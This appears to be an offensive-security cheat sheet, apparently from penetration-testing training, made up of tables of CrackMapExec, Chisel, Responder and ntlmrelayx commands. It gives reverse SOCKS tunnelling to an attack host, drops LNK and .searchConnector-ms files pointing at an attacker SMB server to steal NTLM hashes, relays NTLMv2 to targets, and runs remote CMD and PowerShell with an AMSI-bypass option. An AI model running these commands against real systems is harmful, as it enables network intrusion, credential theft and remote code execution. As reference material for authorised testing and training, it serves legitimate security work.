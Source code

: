 ## Using Proxychains and Chisel

| **Command**| **Description**|
|-|-|
| `chisel server --reverse` | Method #1 - Using our attack host as the chisel server. | 
| `cme smb <target> -u <u> -p <p> -x "C:\Windows\Temp\chisel.exe client 10.10.14.33:8080 R:socks"` | Method #1 - Using the target machine as the Chisel client. | 
| `cme smb <target> -u <u> -p <p> -x "C:\Windows\Temp\chisel.exe server --socks5"` | Method #2 - Using the target machine as the Chisel server. | 
| `chisel client 10.129.204.133:8080 socks` |  Method #2 - Using our attack host as the Chisel client. | 

---

## Stealing Hashes 

| **Command**| **Description**|
|-|-|
| `cme smb <target> -u <u> -p <p> -M slinky -o SERVER=<YOUR_IP> NAME=<LNK_filename` | Creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions. |
| `sudo responder -I tun0` | Start Responder to listen for requests. | 
| `ntlmrelayx.py -t <target> -smb2support --no-http` | Relay NTLMv2 to the target machine. |
| `cme smb <target> -u <u> -p <p> -M slinky -o SERVER=<YOUR_IP> NAME=<LNK_filename CLEAN=YES` | Search and delete the LNK file in all shares or the selected shared folder. |
| `cme smb <target> -u <u> -p <p> -M drop-sc -o URL=\\\\<YOUR_IP>\\secret SHARE=<shared_folder> FILENAME=<filename>` | Creates a .searchConnector-ms with an attribute containing a UNC path to the specified SMB server in the selected shared folder. |
| `cme smb <target> -u <u> -p <p> -M drop-sc -o CLEANUP=True FILENAME=<filename>` | Search and delete the .searchConnector-ms file in the selected shared folder. |

---

## Command Execution

| **Command**| **Description**|
|-|-|
| `cme smb <target> -u <u> -p <p> -x <command>` | Execute the CMD <command> on the target. |
| `cme smb <target> -u <u> -p <p> -X <command>` | Execute Powershell <command> on the target. |
| `cme winrm <target> -u <u> -p <p> -x <command>` |  Execute the CMD <command> on the target using WinRM protocol. |
| `cme winrm <target> -u <u> -p <p> -X <command>` |  Execute the Powershell <command> on the target using WinRM protocol. |
| `cme ssh <target> -u <u> -p <p> -x <command>` | Executing remote command on the target. |
| `cme ssh <target> -u <u> -p <p> --key-file <KEY_FILE> -x <command>` | Using private keys as the authentication method. |
| `--exec-method <EXEC_METHOD>` | Method to execute the command. Ignored if in MSSQL mode (default: wmiexec). |
| `--amsi-bypass <FILE>` | File with a custom AMSI bypass. |

---